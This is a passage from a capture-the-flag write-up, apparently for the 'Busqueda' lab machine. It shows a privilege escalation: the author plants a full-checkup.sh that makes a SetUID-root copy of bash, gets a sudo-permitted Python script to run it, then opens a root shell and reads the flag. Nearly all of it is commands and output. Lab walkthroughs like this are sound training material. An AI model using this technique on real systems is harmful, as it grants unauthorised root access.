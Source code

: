 #### Exploit

I can put whatever I want into a `full-checkup.sh` and it will run as
root if I start `system-checkup.py full-checkup` in the same directory.

I'll have it copy `bash` and set my copy as SetUID to run as root:



    svc@busqueda:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
    svc@busqueda:/dev/shm$ cat full-checkup.sh 
    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chmod 4777 /tmp/0xdf
    svc@busqueda:/dev/shm$ chmod +x full-checkup.sh 



It's important to set it as executable as well.

I'll run `system-checkup.py` and it reports success:



    svc@busqueda:/dev/shm$ sudo python3 /opt/scripts/system-checkup.py full-checkup

    [+] Done!



`/tmp/0xdf` is there, owned by root, and the `s` bit is on:



    svc@busqueda:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Mar 31 19:57 /tmp/0xdf



I'll run with `-p` to [not drop
privs](/setuid-rabbithole.md):



    svc@busqueda:/dev/shm$ /tmp/0xdf -p
    0xdf-5.1#



And grab `root.txt`:



    0xdf-5.1# cat root.txt
    e7df7cd2************************








